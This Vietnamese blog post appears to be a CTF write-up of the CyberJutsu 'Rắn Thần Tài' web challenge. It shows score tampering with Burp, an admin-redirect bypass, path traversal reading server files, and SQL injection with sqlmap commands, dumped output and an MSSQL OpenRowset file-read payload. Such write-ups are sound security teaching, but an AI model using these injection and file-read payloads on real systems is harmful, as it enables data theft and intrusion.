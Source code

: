 ```yaml
---
layout: post
title: Writeup Challenge Rắn Thần Tài CyberJutsu
categories: [CTF, Writeup]
tags: [web, lfi, sqli, bac]
date: 2025-02-19 18:39 +0700
img_path: '/assets/img/writeups/ran-than-tai-cbjs-2025/'
image:
  path: banner.png
---
```


Dịp Tết Ất Tỵ 2025 vừa qua, mình được một ông anh share cho challenge **Rắn Thần Tài** của bên CyberJutsu. Cơ mà lu bu mãi tới giờ mình mới lên bài được hehe =))

Vào việc thôi~

![Writeup](ran-than-tai.png)

Link: [http://206.189.39.54:8085/](http://206.189.39.54:8085/)

Như mọi khi, việc đầu tiên mình làm chính là recon, xem source trước, và mình tìm được ngay Easter Egg đầu tiên

![](easter-egg-1.png)

`Easter Egg 1: CBJS_EASTER_EGG{Part 1: https://lixi.momo.vn/}`

Tiếp theo, kiểm tra `robots.txt`, ta thấy `/appsettings.json` được đặt vô tình một cách đầy cố ý. Ngoài ra, khi truy cập vào các path như `/Areas`, `/Controllers`, không có gì trả về cả nhưng khi truy cập vào `/Admin` thì lại xuất hiện **404 not found**, khá lạ nhỉ

Mình thử bật **DevTools** lên, chuyển qua tab **Network** rồi load lại trang, vậy là mình thấy Easter Egg thứ hai

![](easter-egg-2.png)

`Easter Egg 2: CBJS_EASTER_EGG{Part 2: /lixi/9o3}`

Check tiếp tới `/Game`, đây cơ bản là game rắn săn mồi. Ở đây mình thấy khá nhiều bạn chơi được điểm cao nên mình cũng tò mò làm thử

Cụ thể thì sau mỗi lần thua, 1 **POST request** sẽ được gửi tới server để lưu kết quả lại, ta chỉ cần dùng **Burp Suite** chỉnh số cao lên là được :v

![](easter-egg-5.png)

`Easter Egg 5: CBJS_EASTER_EGG{Part 5 (final): 1R5b}`

Quay lại source của `/Game`, mình thấy có một vài endpoint như  `/Game/Feedback`, `/Admin/EditBackground` và `/api/ranking`, check lần lượt cả các endpoint này thì:

Trong `/Game/Feedback`, để ý 1 chút ta sẽ thấy 1 đoạn `base64` nằm ở dưới cùng, decode phát là ta đã có Easter Egg 3

![](easter-egg-3.png)

`Easter Egg 3: CBJS_EASTER_EGG{Part 3: XA5V}`

Khi truy cập `/Admin/EditBackground`, mình thấy nó redirect về `/Game`, tuy nhiên, mình có thể sử dụng **Burp Suite** để intercept request trước khi redirect

Xong mình chỉ lướt xuống là thấy ngay flag Admin Panel

![](flag-4.png)

`Flag 4: CBJS{Unauthorized_Access_On_Admin_Panel_Because_Lack_Of_Proper_Redirection}`

Đi sâu hơn tí nữa, mình biết được endpoint này dùng để thay background với param là `selectedBackground`

![](selectedBackground.png)

Vì vậy nên mình đã tạo một cái **POST request** để update xem sao, nhưng mà response trả về hơi lạ nhờ

![](lfi.png)

![](https://i.imgur.com/f5G9lxX.png)

Có vẻ như server đã đọc luôn file ảnh đó để làm **preview content**, nhưng điều này khiến nó bị dính vuln **Path Traversal**

Tận dụng vuln này, mình đã có thể lấy được `/tmp/FLAG_WEB`. Tuy nhiên thì mình lại không tiện tay lấy luôn `/tmp/FLAG_DBSERVER` được

![](flag-1.png)

`Flag 1: CBJS{Happy_Year_Of_The_Snake}`

Hmm, hồi đầu khi recon, mình có tìm được 1 file `/appsettings.json`, thế tại sao ta lại không thử luôn nhỉ?

Vậy là chỉ sau 2 lần `../`, mình đã có được Easter Egg cuối cùng :3

`Easter Egg 4: CBJS_EASTER_EGG{Part 4: VMNp}`

Còn 2 flag nữa nên mình clear cho xong luôn

Lúc nãy, ta vẫn còn 1 endpoint chưa test đó là `/api/ranking`. Tại đây mình có được param `sortParam`, tuy nhiên thì mình không tìm ra được bug

Bí nước, mình bắt đầu quay ra chạy scan, và mình scan được endpoint `search` và param `searchTerm`

![](scan.png)

Vì 2 flag còn lại đều liên quan tới database, nên mình cũng ít nhiều đoán được đây có thể là lỗ hổng liên quan tới SQL, và đúng là như thế thật

Chỉ cần quăng `test'OR 1=1;--`, mình đã có thể confirm điều này

Vấn đề còn lại là khai thác để lấy flag thôi, tuy nhiên, mình là một con gà về SQL, nên mình quyết định để cho `sqlmap` xử lý hết, cảm ơn `sqlmap` =)))

```sh
sqlmap -u 'http://206.189.39.54:8085/api/ranking/search?searchTerm=' -p "searchTerm" --dbs

back-end DBMS: Microsoft SQL Server 2022
[*] model
[*] msdb
[*] MyAppDB
[*] tempdb

sqlmap -u 'http://206.189.39.54:8085/api/ranking/search?searchTerm=' -p "searchTerm" -D MyAppDB --tables

Database: MyAppDB
[2 tables]
+-------------+
| CyberJutsu  |
| SnakeScores |
+-------------+

sqlmap -u 'http://206.189.39.54:8085/api/ranking/search?searchTerm=' -p "searchTerm" -D MyAppDB -T CyberJutsu --dump

Database: MyAppDB
Table: CyberJutsu
[1 entry]
+----+--------------------------------+
| Id | flag                           |
+----+--------------------------------+
| 1  | CBJS{SQL_Injection_is_a_jutsu} |
+----+--------------------------------+
```

`Flag 3: CBJS{SQL_Injection_is_a_jutsu}`


Còn lại flag 2, lúc nãy mình đã thử đọc thông qua lỗ hổng **Path Traversal** nhưng không được, nên mình suy đoán ta chỉ có thể đọc bằng lỗ hổng **SQL Injection**

Để đọc được cũng không khó, từ lần chạy `sqlmap`, mình đã biết đây là **Microsoft SQL Server** hay **MSSQL**

Research một tí, mình tìm được cách đọc file trong MSSQL bằng cách dùng [OPENROWSET](https://www.geeksforgeeks.org/reading-a-text-file-with-sql-server/). Vậy giờ ta chỉ cần xác định số lượng columns rồi lụm flag

Cơ mà văn vở vậy thôi, sau khi mình biết nó là **MSSQL** mình đã bay ngay vào [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md) để tìm payload cho nhanh rồi

![](https://i.imgur.com/QyXtJR3.png)

```sql
0'union select 0,(select x from OpenRowset(BULK '/tmp/FLAG_DBSERVER',SINGLE_CLOB) R(x)),2;--
```

![](flag-2.png)

`Flag 2: CBJS{Have_you_Seen_Microsoft_SQL_Server_is_running_on_Linux?}`

Đây là link lì xì nè: [https://lixi.momo.vn/lixi/9o3XA5VVMNp1R5b](https://lixi.momo.vn/lixi/9o3XA5VVMNp1R5b)

Sad fact: Hồi đầu lúc challenge mới mở mình đã tìm được hết flag, nhưng vì Easter Egg 3 bị lỗi nên mình không húp lì xì được, lúc mình thấy link update thì lì xì đã hết :(

Cảm ơn mọi người đã đọc <3
